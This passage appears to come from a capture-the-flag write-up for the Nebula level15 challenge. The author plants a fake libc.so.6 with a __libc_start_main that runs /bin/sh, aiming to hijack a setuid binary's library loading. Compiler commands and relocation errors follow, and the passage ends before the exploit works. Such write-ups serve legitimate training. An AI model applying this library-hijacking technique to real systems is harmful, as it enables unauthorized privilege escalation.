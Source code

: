 So we've got a choice here between `__libc_start_main` or `__gmon_start`. As I am more comfortable with `__libc_start_main` I'm going to go with this.

So let us begin with the code for our library by looking up the [function declaration](https://refspecs.linuxbase.org/LSB_3.1.1/LSB-Core-generic/LSB-Core-generic/baselib---libc-start-main-.html)

```c
#include <linux/unistd.h>

int __libc_start_main(int (*main) (int, char **, char **),
int argc, char *argv, void (*init) (void), void (*fini)
(void), void (*rtld_fini) (void), void *stack_end) {
  system("/bin/sh");
}
```

In theory we should get a shell now

```
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

Nuts, we have a symbol missing, namely `__cxa_finalize`. Let's add it an try again

```C
#include <linux/unistd.h>

void __cxa_finalize (void *d) {
    return;
}

int __libc_start_main(int (*main) (int, char **, char **),
int argc, char *argv, void (*init) (void), void (*fini)
(void), void (*rtld_fini) (void), void *stack_end) {
    system("/bin/sh");
}
```

```
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```
